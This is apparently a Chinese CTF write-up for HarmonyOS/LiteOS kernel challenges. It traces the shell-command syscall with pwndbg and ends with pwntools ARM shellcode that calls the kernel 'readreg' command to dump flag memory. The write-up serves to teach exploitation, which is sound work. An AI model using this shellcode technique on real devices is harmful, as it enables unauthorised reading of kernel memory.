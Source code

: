 ```c
➜  grep -r "shell commands" ./
Binary file .//liteos.bin matches
Binary file .//liteos matches
➜  file liteos
liteos: ELF 32-bit LSB executable, ARM, statically linked, not stripped
```

分析两道题目的liteos中的flag地址分别为

- harmodriver_revenge：0x40130580
- drivemecrazy：0x40131580

以harmodriver_revenge为例，在调用`readreg 0x40130580 0x20`进行调试，因为实现在内核，所以将断点打在shell程序的syscall调用(base+0x4510)：

```c
.plt:00004510 syscall 
.plt:00004510 
.plt:00004510      ADRL      R12, 0x4518
.plt:00004518      LDR       PC, [R12,#(off_5164 - 0x4518)]!
```

调试方法如两年前所写：[XCTF华为鸿蒙专场 HARMOFS01](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/30/harmony/)

![image](https://xuanxuanblingbling.github.io/assets/pic/huawei/debug.png)

执行`readreg 0x40130580 100`，断点断下，查看参数寄存器，发现shell命令的系统调用号为0x206，命令直接用字符串传递：

```c
pwndbg> p /x $r0
$1 = 0x206
pwndbg> x /s $r1
0x242d4aa0:	"readreg"
pwndbg> x /s $r2
0x242d4a80:	"readreg 0x40130580 100"
```

查看libc.so中的syscall函数实现，确认syscall的参数传递符合arm标准，r0,r1传递参数，r7存放系统调用号：

```
.text:0006AB14 syscall
...
.text:0006AB2C            MOV      R7, R0
...
.text:0006AB34            MOV      R0, R1
...
.text:0006AB48            MOV      R1, R2
...
.text:0006AB60            SVC      0
```

所以可以写出调用readreg的shellcode：

```python
from pwn import *
context(arch='arm')

shellcode = asm('''
mov r7,0x206
adr r0,readreg
adr r1,cmd
svc 0

readreg:
.asciz  "readreg"

cmd:
.asciz "readreg 0x40130580 100"
''')
```